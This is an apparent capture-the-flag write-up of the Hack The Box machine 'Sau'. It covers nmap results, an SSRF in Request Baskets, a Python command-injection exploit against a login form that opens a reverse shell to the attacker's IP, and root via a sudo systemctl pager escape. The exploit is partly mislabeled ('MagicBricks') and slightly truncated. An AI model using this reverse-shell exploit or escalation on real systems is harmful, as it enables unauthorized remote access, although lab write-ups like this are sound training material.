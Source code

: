 # SAU-HTB

### NMAP SCAN:
```
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
33/tcp    filtered dsp
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 22 Sep 2023 17:33:44 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 22 Sep 2023 17:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 22 Sep 2023 17:33:12 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.80%I=7%D=9/22%Time=650DCFD7%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2022\x20Sep\x20
SF:2023\x2017:33:11\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2022\x20Sep\x20
SF:2023\x2017:33:12\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Fri,\x2022\x20Sep\x202023\x2017:33:44\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.13 seconds
```
- Here the http port is filtered, so we checking other ports 55555 open port therefore checking it opens a 
`Request Baskets` web page which shows that it is a Request Buckets v1.2.1, which has a `SSRF (SERVER SIDE REQUEST FORGUERY)`

### SSRF in Request Baskets v1.2.1
- SSRF is a web-based vulnerability where the requests are made by the server, this is a kind of vulnerability where the requests made by user are sent as the requests by the server by using this we access the port 80 of the box
![img](screenshots/Screenshot from 2023-09-22 23-51-32.png)
### MagicBricks v0.53 (RCE)
```
import sys
import os
import base64

def main():
    listening_IP = None
    listening_PORT = None
    target_URL = None

    if len(sys.argv) != 4:
        print("Error. Needs listening IP, PORT, and target URL.")
        return -1

    listening_IP = sys.argv[1]
    listening_PORT = sys.argv[2]
    target_URL = sys.argv[3]
    print("Running exploit on " + str(target_URL))
    curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
    payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
    print("encoded payload is", encoded_payload)
    command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    os.system(command)

if __name__ == "__main__":
```

The username in this login page is weakly sanitized so that we execute a reverse shell to my pc.This py script takes three parameters of my_ip, my_port, payload.
`python3 sau.py 10.10.14.53 1234 http://10.10.11.224:55555/60z0p86`

### PRIVILAGE ESCALATION 
- While checking for the sudo permissions of puma we got that puma can execute  `systemctl status trails.service` 
 ```
 sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
```
- Systemctl command is runned as a root user and then we type `!sh` to get the root shell.


